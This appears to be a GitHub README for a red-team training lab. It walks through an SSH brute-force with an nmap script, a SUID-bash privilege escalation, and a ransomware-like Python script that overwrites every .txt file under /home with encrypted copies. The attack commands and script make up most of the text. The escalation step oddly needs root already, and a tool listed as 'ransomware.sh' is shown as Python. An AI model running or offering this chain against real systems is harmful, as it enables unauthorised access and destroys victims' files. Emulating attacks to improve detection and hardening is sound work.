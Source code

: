 # Red-Team-Attack simulation

Brute Force → Privilege Escalation → Ransomware Execution

This repository demonstrates a **complete attack chain simulation** in a controlled environment.
The goal is to emulate real-world attacker behavior to test and improve detection, response, and hardening capabilities.


> Simulated attack flow:

1. 🔐 **Brute-force attack** on SSH to gain user credentials.
2. 🧑‍💻 **Access the target system** using stolen credentials.
3. 🚀 **Privilege escalation** via shell misconfiguration (`/bin/bash -p`).
4. 💣 **Deploy and execute a ransomware-like script** to encrypt files.
5. 🔽 **De-escalation** (optional cleanup or simulation end).

---

## 🔧 Environment Setup

> Recommended tools & platforms:
- Target OS: **Ubuntu/Kali Linux VM**
- Attacker: **Kali Linux**
- Tools used: `nmap`, `ssh`, `bash`, custom `ransomware.sh` script

---

##  Step 1: Brute Force Attack

Simulate brute-forcing a user account (`victim`) using `nmap`:
nmap --script ssh-brute --script-args userdb=username.txt,passdb=passwords.txt -p 22 10.0.2.10

##  Step 2: login as a normal user 
 ssh user@server-ip

 ##  Step 3: privilege escalation via misconfiguration 
 
   As root, copy /bin/bash to /tmp/bash:
    cp /bin/bash /tmp/bash
    
   Make root the owner and set the SUID bit:
    chown root:root /tmp/bash
    chmod +s /tmp/bash
    
   Now, execute the bash binary as a normal user:
    /tmp/bash -p

##  Step 4:Deploy and execute a ransomware-like script

ransomware script :                    
  
    from cryptography.fernet import Fernet
    import os
    
    # Change to the target directory
    os.chdir("/home/")
    
    # Generate and save a Fernet key (only once, or reuse an existing one)
    key = Fernet.generate_key()
    with open("key.key", "wb") as f:
        f.write(key)
    
    # Initialize Fernet with the key
    fernet = Fernet(key)
    
    # Walk through the directory and encrypt all .txt files
    for root, dirs, files in os.walk(os.getcwd()):
        for file in files:
            if file.endswith(".txt"):
                file_path = os.path.join(root, file)
                
                # Read original content
                with open(file_path, "rb") as f:
                    data = f.read()
                
                # Encrypt the content
                encrypted = fernet.encrypt(data)
                
                # Overwrite the file with encrypted content
                with open(file_path, "wb") as f:
                    f.write(encrypted)


 
    



